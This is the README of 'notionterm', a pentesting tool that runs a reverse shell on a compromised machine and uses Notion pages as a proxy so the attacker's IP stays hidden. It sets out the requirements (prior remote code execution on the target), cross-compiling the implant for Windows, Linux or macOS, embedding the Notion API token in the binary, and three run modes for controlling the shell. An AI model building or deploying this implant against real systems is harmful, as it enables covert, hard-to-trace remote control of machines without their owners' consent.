 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo/Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>
</div>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication from the target to the notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

### 🏗️ Set-up
1. Create a page and give to the integration API key the permissions to have page write access
2. Build `notionterm` and transfer it on target machine (see [install](#install))

### 👟 Run

There are 3 main ways to run `notionterm`:

<details>
  <summary><b>"normal" mode</b><br><i>Get terminal, stop/unstop it, etc...</i></summary>
<code>
notionterm [flags]
</code><br>
Start the shell with the button widget: turn <code>ON</code>, do you reverse shell stuff, turn <code>OFF</code> to pause, turn <code>ON</code> to resume etc...
</details>

<details>
  <summary><b>"server" mode</b><br><i>Ease notionterm embedding in any page</i></summary>
<code>
notionterm --server [flags]
</code><br>
Start a shell session in any page by creating an embed block with URL containing the page id <i>(<code>CTRL+L</code>to get it)</i>: <code>https://[TARGET_URL]/notionterm?url=[NOTION_PAGE_ID]</code>.
</details>


<details>
  <summary><b><code>light</code> mode</b><br><i>Only perform HTTP traffic from target → notion</i></summary>
<code>
notionterm light [flags]
</code>
</details>

## Install

As `notionterm` is aimed to be run on target machine it must be built to fit with it.

Thus set env var to fit with the target requirement:
```shell
GOOS=[windows/linux/darwin]
```

### Simple build
```shell
git clone https://github.com/ariary/notionterm.git && cd notionterm
GOOS=$GOOS go build notionterm.go
```

You will need to set API key and notion page URL using either env var (`NOTION_TOKEN` & `NOTION_PAGE_URL`) or flags (`--token` & `--page-url`)

### "All-inclusive" build
Embed directly the notion integration API token and notion page url in the binary. *⚠️ everybody with access to the binary can retrieved the token. For security reason don't share it and remove it after use.*

Set according env var:
```shell
export NOTION_PAGE_URL=[NOTION_PAGE_URL]
export NOTION_TOKEN=[INTEGRATION_NOTION_TOKEN]
```
And build it:
```
git clone https://github.com/ariary/notionterm.git && cd notionterm
./static-build.sh $NOTION_PAGE_URL $NOTION_TOKEN $GOOS go build notionterm.go
```

